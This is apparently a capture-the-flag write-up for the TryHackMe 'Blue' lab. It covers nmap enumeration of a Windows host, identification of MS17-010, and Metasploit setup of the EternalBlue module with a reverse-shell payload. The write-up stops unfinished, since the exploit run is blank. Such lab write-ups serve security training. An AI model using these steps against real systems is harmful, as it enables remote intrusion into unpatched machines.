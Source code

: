 ```yaml
---
layout: post
title: THM Blue Writeup
categories: [CTF Writeup]
tags: [writeup, ctf, cybersecurity, tryhackme]
---
```


## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Once the machine is started, we'll start by scanning the network: 

```console
$ sudo nmap -sS -vv MACHINE_IP
...
Initiating SYN Stealth Scan at 15:45
Scanning MACHINE_IP [1000 ports]
Discovered open port 135/tcp on MACHINE_IP
Discovered open port 3389/tcp on MACHINE_IP
Discovered open port 139/tcp on MACHINE_IP
...
PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49158/tcp open  unknown       syn-ack ttl 127
49160/tcp open  unknown       syn-ack ttl 127

...
```

So, from this simple scan, we get the answer to the first question asked in the room:

> How many ports are open with a port number under 1000?
> > 3

We can further check the service versions by running a service scan on ports `135`, `139` and `445`:

```console
$ nmap -sV -vv -p135,139,445 MACHINE_IP 
...

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

...
```

Nothing interesting... Well, the answer to the next question will be the exploit code corresponding to the `Eternal Blue` exploit. How did I get to that conclusion? To be honest, it's quite obviously displayed all over the web page when you view the room on Tryhackme: 

![](/assets/img/writeup_assets/blue/blue-room-top.png)

A simple and quick search tells us the exploit's alternative name:

![](/assets/img/writeup_assets/blue/eblue-search.png)

Thus, we get the answer to the next question:

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
> > MS17-010

## Gaining Access

Armed with the knowledge we gained from the enumeration phase, let's try and exploit the machine we're given.

Now, there's 2 ways to do this, with metasploit and without it. We'll try and do it with metasploit but I'll try and make a section where I give it a go without using metasploit.

After we fire up `msfconsole`, we can try and search for any available exploits:

```console
$ sudo msfconsole -q
msf6 > search eternal blue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution                 
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection                                                                                  
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

The one we're looking for is the first one, `exploit/windows/smb/ms17_010_eternalblue`. So we get the answer for the first question in this section:

> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
> > exploit/windows/smb/ms17_010_eternalblue

We can have a look at the options of the module we've selected like so:

```console
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.80.0.96       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

We'll need to set some of these, the first and most essential being `RHOSTS`:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS  MACHINE_IP 
RHOSTS => MACHINE_IP
```

That's the answer to the second question:

> Show options and set the one required value. What is the name of this value? (All caps for submission)
> > RHOSTS

Next, we'll be setting the payload for the exploit, I'll be using `windows/x64/shell/reverse_tcp` as indicated in the room's instructions:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```


And now, we just run the exploit and see the magic happen!
> Note that if this does not work, just reboot the VM by terminating it and starting it again, and then running this exploit after updating RHOSTS

```console
```

#### Well, The exploit's not working at all for me, so I'll update this writeup when it does. Cheers!

--- 

Link to the room: https://tryhackme.com/room/blue

